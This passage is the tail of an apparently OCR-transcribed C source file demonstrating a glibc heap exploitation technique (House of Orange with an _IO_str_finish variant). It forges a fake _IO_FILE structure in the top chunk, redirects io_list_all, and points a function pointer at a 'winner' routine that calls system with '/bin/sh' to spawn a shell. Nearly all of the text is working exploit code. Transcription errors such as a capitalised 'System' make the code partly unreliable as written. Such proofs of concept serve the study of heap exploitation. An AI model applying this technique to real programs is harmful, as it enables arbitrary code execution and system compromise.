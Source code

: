 ```c

    io_list_all = top[2] + 0x9a8;

    top[3] = io_list_all - 0x10;

    // _IO_str_finish conditions

    char binsh_in_libc[] = "/bin/sh\x00"; // we can found "/bin/sh" in libc, here i create it in stack



    top[0] = ((size_t) &binsh_in_libc + 0x10) & ~1;

    top[7] = ((size_t)&binsh_in_libc); // buf_base



    // house_of_orange conditions

    top[1] = 0x61;

    top[5] = 0x1 ; //_IO_write_ptr

    top[20] = (size_t) &top[18];

    top[21] = 2;

    top[22] = 3;

    top[24] = -1;

    top[27] = (size_t) stdin - 0x33f0 - 0x18;

    top[29] = (size_t) &winner;

		top[30] = (size_t) &top[30];

    malloc(10);

    return 0;

}

int winner(char *ptr)

{ 

System (ptr);
    return 0;

}

```


